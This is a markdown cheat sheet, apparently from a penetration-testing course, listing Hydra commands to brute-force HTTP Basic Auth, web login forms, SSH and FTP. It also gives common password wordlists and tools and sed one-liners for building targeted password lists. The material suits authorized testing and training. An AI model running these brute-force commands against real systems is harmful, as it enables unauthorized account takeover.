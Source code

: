 # Cheat Sheet

## Hydra

| **Command**                                                                                                                            | **Description**                                     |
| -------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                                             | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                   | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                             | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                     | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                   | FTP Brute Force - Static User, Pass Wordlist        |

## Wordlists

| **Command**                                                                        | **Description**            |
| ---------------------------------------------------------------------------------- | -------------------------- |
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                      | Common Passwords Wordlist  |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                   | Common Names Wordlist      |

## Misc

| **Command**                                     | **Description**                        |
| ----------------------------------------------- | -------------------------------------- |
| `cupp -i`                                       | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`      | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                 | SSH to Server                          |
| `ftp 127.0.0.1`                                 | FTP to Server                          |
| `su - user`                                     | Switch to User                         |
